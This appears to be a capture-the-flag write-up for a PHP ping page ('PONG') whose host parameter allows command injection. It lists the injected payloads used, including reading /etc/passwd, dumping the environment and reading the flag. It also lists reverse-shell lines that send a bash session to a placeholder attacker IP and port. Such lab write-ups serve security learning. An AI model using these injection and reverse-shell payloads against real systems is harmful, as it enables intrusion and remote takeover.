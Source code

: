 # PONG
## The App
When opening the site, the following text appears:

```
Command executed: ping -c 2 127.0.0.1
```

The URL is `/index.php?host=127.0.0.1` which indicates that the IP or maybe more is controllable.

## Tried solutions & solution
I tried to set `host=127.0.0.1;cat /etc/passwd` which showed the content of the `/etc/passwd` file. This measn we can control the command and inject our own.

I then tried to inject `127.0.0.1;bash -c bash -i >& /dev/tcp/<attack-ip-with-netcat-open>/<attacker-netcat-port> 0>&1` as URL encoded payload to open a reverse shell but it didn't work.

I then tried `127.0.0.1;ls .` but it returned only `index.php`. 

`127.0.0.1;echo $PWD` shows, that the directory is `/var/www/html`. 

`127.0.0.1;env` showed:

```
PHP_INI_DIR=/usr/local/etc/php
HOME=/root
PHP_LDFLAGS=-Wl,-O1 -pie
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_VERSION=7.4.30
GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_ASC_URL=https://www.php.net/distributions/php-7.4.30.tar.xz.asc
PHP_URL=https://www.php.net/distributions/php-7.4.30.tar.xz
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PHPIZE_DEPS=autoconf 		dpkg-dev 		file 		g++ 		gcc 		libc-dev 		make 		pkg-config 		re2c
PWD=/var/www/html
PHP_SHA256=ea72a34f32c67e79ac2da7dfe96177f3c451c3eefae5810ba13312ed398ba70d
```
So no flag there.

`127.0.0.1;ls /root` showed nothing.

I tried multiple attempts to open a reverse shell but it didn't work (for example I tried `bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1` but no luck).

Okay, seems that only a Webshell works.

My attempts to open a reverse shell broke the container because I modified the PHP file so I had to restart it.

Then I tried to serch for the flag with the payload `ls /`. This revealed a `flag.txt` file entry which I could read by calling `cat /flag.txt`